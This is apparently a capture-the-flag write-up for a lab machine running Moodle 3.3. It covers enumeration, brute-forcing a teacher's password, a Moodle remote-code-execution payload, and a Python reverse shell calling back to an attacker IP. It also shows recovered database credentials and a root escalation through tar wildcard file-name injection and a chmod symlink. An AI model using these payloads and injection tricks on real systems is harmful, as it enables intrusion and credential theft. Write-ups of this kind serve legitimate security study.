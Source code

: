 ![logo](./logo.png)

# USER

Began with standard enum. Nmap and gobuster. Only port open is a standard webpage

Webpage has a 'moodle' service active

Could be CRSF here:
http://10.10.10.153/moodle/error/ 

Anther box for possible SQL Injection: 
http://10.10.10.153/moodle/tag/search.php

Seem to be using moodle Version 3.3


Found a message encoded as a stupid image

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Need to try and brute force it. 

Code used:
```
brute.py
```

After a brute force the missing character is a "#"

```
Giovanni
Th4C00lTheacha#
```

To get a shell it looks like I need to get evil:
https://blog.ripstech.com/2018/moodle-remote-code-execution/

Payload:
```
/*{a*/`$_GET[0]`;//{x}}
```

Reverse shell
```
&0=(python -c 'import socket,subprocess,os;IP="10.10.14.55";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```

The automated process can be found in:
```
automated_shell.py
```

In the directory you land in you can find a ```config.php``` that contains db creds for a hosted database
```
root
Welkom1!
```

Naviagating to the mdl_user, gives us a md5 hash for the user

```
mysql -P 3306 -u root -pWelkom1! moodle
```

Credentials:
```
giovanni
expelled
```

This lets us elevate to user

# ROOT

On the machine there is a process running called /usr/bin/backup.sh running as root

```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R
```

Because of the wildcard on the tar command. We can give files in the directory names 
that act as params. However the use of "/*" in the code makes this attack non executable

e.g.
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=shell.sh"
```

By adding a root directory symlink in the work directory. 
The chmod 777 * -R command runs over the root directory and allows us to read it
